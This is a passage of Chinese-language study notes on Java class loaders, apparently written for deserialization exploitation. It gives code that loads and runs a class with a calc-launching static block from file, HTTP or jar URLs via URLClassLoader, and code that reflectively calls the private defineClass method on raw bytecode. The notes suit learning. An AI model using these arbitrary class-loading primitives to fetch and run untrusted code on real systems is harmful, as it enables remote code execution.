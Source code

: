 ClassLoader -> SecureClassLoader -> URLCLassLoader -> AppClassLoader   （继承关系 父->子）

ClassLoader.loadClass -> URLCLass.findClass(重写方法)(路径中能找到类才进入defineCLass) ->SecureClassLoader.defineClass(从字节码加载类)->ClassLoader.defineClass

![image-20240704144522395](https://s2.loli.net/2024/07/04/SCkdTqWeVEPRJFa.png)

## 利用

先编写并编译一个弹计算器的代码，放到一个指定路径，之后把项目中的Test.class删除（项目路径没有Test.class,看看是否能够通过类加载器的利用，找到类）

```java
import java.io.IOException;

public class Test {
    static  {  //静态代码块
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

### URLCLassLoader 任意类加载：file/http/jar 协议

```java
public class LoadClassTest {
    public static void main(String[] args) throws Exception {
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("file:///G:\\Java反序列化\\class_test\\")}); //指定Class的查找路径
        
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("http://127.0.0.1:9999/")}); //指定Class的查找路径
        
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("jar:http://127.0.0.1:9999/Test.jar!/")}); //指定Class的查找路径
        Class<?> c = urlClassLoader.loadClass("Test"); //load Person类
        c.newInstance();  //实例化
    }
}
```

### ClassLoader.defineClass 字节码加载任意类 私有

```java
public class LoadClassTest {
    public static void main(String[] args) throws Exception {

        ClassLoader classLoader = ClassLoader.getSystemClassLoader();
        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        Class c = (Class) defineClass.invoke(classLoader, "Test",code, 0, code.length);  //对象 类名 字节码 字节码起始 字节码长度 defineClass返回的是Class<?> 这里也就是返回的Test.class
        c.newInstance(); //实例化 触发静态代码块
    }
}
```
